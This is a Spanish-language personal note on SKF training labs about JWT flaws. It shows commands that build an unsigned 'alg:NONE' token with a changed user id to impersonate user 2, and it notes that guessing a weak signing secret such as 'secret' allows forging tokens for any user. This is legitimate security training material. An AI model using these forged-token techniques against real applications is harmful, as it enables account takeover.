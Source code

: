 Json web token null cypher
Con skf labs entramos a /json/jwt-null

Nos vamos al inspwctor en storage y  localstorage podemos ver el token
lo copiamos y pegamos en jwt.io
![[Pasted image 20250418105126.png]]
Lo que vamos a hacer es modificar el payload tal que vamos a buscar una vulnerabilidad potencial
Es decir:
Abrimos consola
Esta seria la primera parte correspondiente a la cabecera o header
echo -n '{"alg":"NONE","typ":"JWT"}' | base64

		Salida Consola: eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0
Ahora modificaremos la parte de payload
echo -n '{"id":2,"iat":1744994452,"exp":1744998052}' | base64

		Salida Consola: eyJpZCI6MiwiaWF0IjoxNzQ0OTk0NDUyLCJleHAiOjE3NDQ5OTgwNTJ9

Ahora los uniremos y probaremos la vulnerabilidad
	
		eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNzQ0OTk0NDUyLCJleHAiOjE3NDQ5OTgwNTJ9.

Y hemos logrado acceder como user 2


Escenario 2
Abrimos JWT-Secret 

En el caso de que si nos valide el campo(desconocemos el secreto para crear el json web token)

Muchas veces emplean en el secret contraseñas debiles entonces,  la palabra secret
y PWNED
Hemos accedido al otro usuario

Al tener el secret podemos acceder a cualquier user

